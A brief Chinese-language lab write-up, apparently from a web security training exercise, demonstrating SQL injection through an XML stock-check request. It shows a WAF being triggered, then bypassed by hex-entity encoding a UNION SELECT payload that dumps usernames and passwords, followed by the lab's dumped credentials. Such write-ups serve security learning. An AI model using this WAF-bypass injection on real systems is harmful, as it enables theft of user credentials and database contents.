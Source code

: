 返回：370 units

换成7+1

返回：478 units



```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			7 union selct null
		</productId>
		<storeId>
			2
		</storeId>
	</stockCheck>
```

返回："Attack detected"

选中`7 union selct null`，使用插件 “扩展程序”>“Hackvertor”>“编码”>“dec_entities/hex_entities”

这样可以绕过WAF



```xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			2 UNION SELECT username || '~' || password FROM users
		</@hex_entities>
	</storeId>
</stockCheck>
```

carlos~2i65tzk7pxbzvl22hhhx
287 units
administrator~0d1ww5gegtray8ifa2qc
wiener~az0xzy9rrkla5avaru1e

productId那里似乎不能进行联查

